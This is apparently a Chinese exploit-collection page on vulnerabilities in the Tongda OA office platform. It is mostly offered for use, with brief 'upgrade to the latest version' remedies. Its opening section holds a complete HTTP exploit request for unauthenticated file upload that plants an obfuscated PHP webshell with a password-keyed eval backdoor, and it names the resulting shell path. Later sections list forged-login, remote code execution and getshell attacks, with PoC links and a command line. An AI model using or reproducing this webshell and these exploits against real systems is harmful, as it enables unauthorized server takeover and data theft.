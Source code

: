 ```yaml
---
title: Tongda-OA(通达)
---
```


## 应用简介

[通达OA](https://www.tongda2000.com/)，协同办公平台

## 前台任意文件上传

```http
#影响版本
2016-11.6
```

**漏洞利用-EXP**

```http
POST /module/ueditor/php/action_upload.php?action=uploadfile HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------157569659620694477453109954647
Content-Length: 879
Connection: close
Cookie: PHPSESSID=t0a1f7nd58egc83cnpv045iua4; KEY_RANDOMDATA=16407
Upgrade-Insecure-Requests: 1

-----------------------------157569659620694477453109954647
Content-Disposition: form-data; name="CONFIG[fileFieldName]"

ff
-----------------------------157569659620694477453109954647
Content-Disposition: form-data; name="CONFIG[fileMaxSize]"

1000000000
-----------------------------157569659620694477453109954647
Content-Disposition: form-data; name="CONFIG[filePathFormat]"

Api/conf
-----------------------------157569659620694477453109954647
Content-Disposition: form-data; name="CONFIG[fileAllowFiles][]"

.php
-----------------------------157569659620694477453109954647
Content-Disposition: form-data; name="ff"; filename="xxxaaaa.php"
Content-Type: text/plain

<?php
    session_start();
    @set_time_limit(0);
	@error_reporting(0);
    function E($D,$K){
        for($i=0;$i<strlen($D);$i++) {
            $D[$i] = $D[$i]^$K[$i+1&15];
        }
        return $D;
    }
    function Q($D){
        return base64_encode($D);
    }
    function O($D){
        return base64_decode($D);
    }
    $P='PASS_1z';
    $V='payload';
    $T='3c6e0b8a9c15224a';
    if (isset($_POST[$P])){
        $F=O(E(O($_POST[$P]),$T));
        if (isset($_SESSION[$V])){
            $L=$_SESSION[$V];
            $A=explode('|',$L);
            class C{public function nvoke($p) {eval($p."");}}
            $R=new C();
			$R->nvoke($A[0]);
            echo substr(md5($P.$T),0,16);
            echo Q(E(@run($F),$T));
            echo substr(md5($P.$T),16);
        }else{
            $_SESSION[$V]=$F;
        }
    }

-----------------------------157569659620694477453109954647
Content-Disposition: form-data; name="mufile"

提交查询
-----------------------------157569659620694477453109954647--
```

Webshell地址：127.0.0.1/api/conf.php，exp中api/conf表示api为文件上传后的路径，conf为文件名

## [11.5]-前台任意用户伪造登录漏洞

**漏洞概述**

```http
#影响范围
通达OA < 11.5
通达OA = 2017
```

**漏洞利用**

1、使用[POC](https://github.com/NS-Sp4ce/TongDaOA-Fake-User#tongdaoa-fake-user)获取Cookie

```bash
python3 poc.py -v 11 -url http://xxx.com
```

2、浏览器插件`Cookie-Editor`替换Cookie即可登录

**修复建议**

升级到最新版本

**11.5（未授权和SQL注入的POC）**

https://4m.cn/1XlPK

## [11.6]-未授权RCE(危险操作)
**漏洞概述**

```http
#影响范围
V11.6
```

通过任意文件漏洞删除上传点包含的身份验证文件，从而造成未授权访问实现任意文件上传

**漏洞利用**

POC下载：https://github.com/TomAPU/poc_and_exp/blob/master/rce.py

**修复建议**

升级到最新版本

**漏洞分析**

https://xz.aliyun.com/t/8430

## [全版本]-文件上传+文件包含GetShell

**漏洞概述**

```http
#影响范围
V11
2017
2016
2015
2013
2013增强版
```

通过绕过身份认证（或弱口令）, 攻击者可上传任意文件，配合文件包含即可出发远程恶意代码执行

**漏洞利用**

POC：

https://github.com/ghtwf01/td_rce

https://github.com/php00py/tongdaOA

**修复建议**

升级到最新版本

**漏洞分析**

https://xz.aliyun.com/t/7437

## 后台Getshell

🔸 [通达OA 11.2后台getshell](https://www.cnblogs.com/yuzly/p/13606314.html)
🔸 [通达OA 11.7 后台sql注入getshell漏洞](https://www.cnblogs.com/yuzly/p/13690737.html)